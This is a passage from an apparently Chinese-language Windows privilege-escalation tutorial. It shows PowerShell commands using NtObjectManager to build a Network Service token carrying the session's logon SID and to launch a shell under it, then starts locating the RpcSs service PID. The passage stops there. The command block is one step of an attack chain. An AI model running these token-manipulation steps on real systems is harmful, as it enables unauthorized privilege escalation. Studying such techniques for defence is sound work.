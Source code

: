 图 22 system 权限 PowerShell

接着我们先导入先前下载的包，接着获取当前的会话令牌，然后创建新的 Network Service 令牌并添加 SID 到组，最后使用新的令牌启动一个 Network Service 的 PowerShell。具体命令如下。

```bash
Import-Module C:\NtObjectManager
$sess = Get-NtToken -Session
$token = Get-NtToken -Service NetworkService -AdditionalGroups $sess.LogonSid.Sid
New-Win32Process PowerShell -Token $token -CreationFlags NewConsole
```

开启 Network Service 的 PowerShell，如图 23 所示。

![](assets/1706773615-c941f99591ccaabae1cabd10d2787dc2.jpg)

图 23 Network Service 的 PowerShell

首先我们需要知道 Rpcss 服务的 Pid。通过任务管理器查看 Rpcss 服务 Pid 如图 24 所示。
